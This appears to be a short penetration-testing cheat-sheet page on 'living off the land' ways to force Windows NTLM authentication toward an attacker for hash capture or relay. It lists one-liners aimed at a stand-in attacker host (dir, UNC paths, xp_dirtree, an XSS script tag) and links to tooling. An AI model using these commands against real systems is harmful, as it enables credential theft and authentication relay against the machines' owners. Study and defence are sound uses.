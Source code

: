 # 🛠️ Living off the land

Using tools already there, command execution, code execution, to create trafic and capture hashes or relay authentications.

An attacker able to execute code or commands on a machine can make it authenticate somewhere in many ways.

| Type | Command/code | Outgoing protocol |
| :--- | :--- | :--- |
| DOS/Powershell | `dir \\$ATTACKER_IP\unicorn` | SMB |
| from a file explorer | `\\$ATTACKER_IP\something` | SMB |
| from a browser | `http://ATTACKER_IP/` | HTTP |
| MS-SQL | `EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\unicorn',1, 1` | SMB |

SCF, LNK, .URL etc.



XSS \(like `<script>language='javascript' src='\\$ATTACKER_IP\something'</script>`\)

Other attacks that allow to edit the website content and make browsers request the attacker

SMB trap etc. HTTP server sends 302 redirect to file://attacker\_ip/something

[https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)



.XML, IncludePicture Field \(Word\), hyperlink



[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF) [https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)



[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes\#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://logrhythm.com/blog/what-are-living-off-the-land-attacks/](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

